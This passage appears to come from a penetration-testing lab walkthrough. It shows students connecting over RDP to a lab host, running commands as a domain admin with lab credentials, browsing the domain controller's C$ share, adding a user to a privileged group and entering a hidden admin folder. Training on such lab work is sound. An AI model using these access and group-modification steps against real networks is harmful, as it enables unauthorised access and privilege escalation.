 ```
[00:29:58:561] [110058:110059] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.144.68:3389 (RDP-Server):
	Common Name: WIN-TOKEN.LEGACY.CORP
	Subject:     CN = WIN-TOKEN.LEGACY.CORP
	Issuer:      CN = WIN-TOKEN.LEGACY.CORP
	Thumbprint:  4c:a4:91:df:e7:e8:d8:b5:d0:5b:dc:a4:80:1d:a0:3c:31:0a:3f:6a:90:88:fa:1d:d4:76:5b:fd:9a:d4:18:c4
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Students will open Command Prompt and will use the native `RunAs` binary to spawn PowerShell prompt using the credentials `legacy\admin:password@123` (from the section material):

Code: cmd

```cmd
runas /netonly /user:legacy\admin.user powershell.exe
```

```
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\normal.user>runas /netonly /user:legacy\admin.user powershell.exe

Enter the password for legacy\admin.user: password@123
Attempting to start powershell.exe as user "legacy\admin.user" ...
```

Subsequently, students will query the contents of the `\\dc01\c$` directory finding the directory ending with `$` within the newly spawned PowerShell window:

Code: powershell

```powershell
dir \\dc01\c$
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> dir \\dc01\c$

    Directory: \\dc01\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/16/2024   7:17 AM                admin-shares
d-----        1/21/2025  12:19 PM                {hidden}
d-----       12/17/2024   5:29 AM                Hospital

<SNIP>
```


[DC01]: PS C:\Users\admin.user\Documents> Get-ACL -Path "\\dc01\C$\ADMINS$\" | Format-List -Property AccessToString
[DC01]: PS C:\Users\admin.user\Documents> net group Admin-Files admin.user /add
[DC01]: PS C:\Users\admin.user\Documents> cd 'C:\ADMINS$\'
[DC01]: PS C:\ADMINS$> ls
[DC01]: PS C:\Users\admin.user\Documents> exit